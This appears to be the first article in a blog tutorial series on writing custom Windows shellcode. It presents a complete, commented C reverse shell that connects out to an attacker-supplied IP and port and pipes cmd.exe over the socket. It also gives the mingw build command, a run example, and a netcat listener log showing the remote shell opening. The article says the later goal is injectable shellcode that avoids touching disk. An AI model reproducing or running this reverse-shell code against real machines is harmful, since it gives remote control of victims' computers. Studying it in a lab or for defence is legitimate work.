 [Home](https://plackyhacker.github.io)

# Writing Custom Shellcode, Introduction

## Assumptions

It is assumed that you know what a reverse shell is and you have a basic ability to read the flow of code. It is not necessary to understand the Win32 API calling conventions, or assembly language - this will be explained in later articles.

## Introduction

X86, and why...

## Anatomy of a Reverse Shell

Let's begin by looking at a basic reverse shell coded in C.

```c
include <winsock2.h>
#pragma comment(lib, "w2_32")

int main(int argc, char *argv[])
{
  // exit if args aren't provided (local ip/port)
  if(argc < 3) exit(0);

  // A pointer to the WSADATA data structure that is to receive details of the Windows Sockets implementation.
  WSADATA wsaData;
  	
  // If no error occurs, WSASocket returns a descriptor referencing the new socket.
  SOCKET Winsock;
  	
  // structure that specifies the address to which to connect.
  struct sockaddr_in laddr;

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
  // The WSAStartup function initiates use of the Winsock DLL by a process, here we use v2.2
  WSAStartup(MAKEWORD(2,2), &wsaData);
  	
  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
  // The WSASocket function creates a socket that is bound to a specific transport-service provider.
  Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  // https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2
  // set up a socket addr structure for the local host (attacking machine)
  laddr.sin_family = AF_INET;
  laddr.sin_addr.s_addr = inet_addr(argv[1]);
  laddr.sin_port = htons(atoi(argv[2]));

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
  // The WSAConnect function establishes a connection to another socket application (e.g., the netcat listener)
  WSAConnect(Winsock,(SOCKADDR*)&laddr, sizeof(laddr), NULL, NULL, NULL, NULL);
  
  if (WSAGetLastError() == 0) {
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
    // Specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
    STARTUPINFO ini_processo;
    
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information
    // Contains information about a newly created process and its primary thread.
    PROCESS_INFORMATION processo_info;
      
    // https://www.tutorialspoint.com/c_standard_library/c_function_memset.htm
    // this function basically sets the ini_processo structure to all 0s
    memset(&ini_processo, 0, sizeof(ini_processo));
      
    // simply specifies the size of the structure
    ini_processo.cb=sizeof(ini_processo);
    // If this flag is specified when calling one of the process creation functions, the handles must be inheritable
    ini_processo.dwFlags=STARTF_USESTDHANDLES;
    
    // here we redirect the stdin, stdout, and stderr handles to the socket handle
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
    // Creates a new process and its primary thread. The new process runs in the security context of the calling process.
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    // exit
    exit(0);
  } else {
    // exit
    exit(0);
  }
}
```

From a high level the code does four things by using the Win32 APIs:

- `WSAStartup` - Initialises the winsock DLL for use.
- `WSASocket` - Creates a socket object which we can use to connect to a `netcat` listener on an attacking machine.
- `WSAConnect` - Establishes a connection to our `netcat` listener.
- `CreateProcess` - Creates a new `cmd.exe` process and redirects the stdin, stdout, and stderr streams to the winsock object.

The C code can be compiled on a Linux machine using `mingw32`:

```bash
i686-w64-mingw32-g++ -std=c++11 shell.c -o shell.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

We can then run the portable executable on Windows:

```powershell
shell.exe 172.16.245.129 4444
```

This establishes a reverse shell back to the `netcat` listener:

```bash
nc -nvlp 4444 
listening on [any] 4444 ...
connect to [172.16.245.129] from (UNKNOWN) [172.16.245.128] 57270
Microsoft Windows [Version 10.0.19044.1766]
(c) Microsoft Corporation. All rights reserved.

C:\Users\John\Desktop>
```

This is ok, but it has a few problems. It is compiled as a PE (portable executable) file, this means it needs to be dropped to disk and executed, which is not desirable. It cannot be used in a remote exploit, such as a buffer overflow. For this we need shellcode that can be injected into an existing process and does not rely upon the structure of a PE file to execute.

When writing shellcode we need to carry out the same four tasks to establish a reverse shell, but we need to program it in assembly language, which presents us with a different set of problems.

In the next article I will write about Windows calling conventions and some basic assembly language.

[Home](https://plackyhacker.github.io)
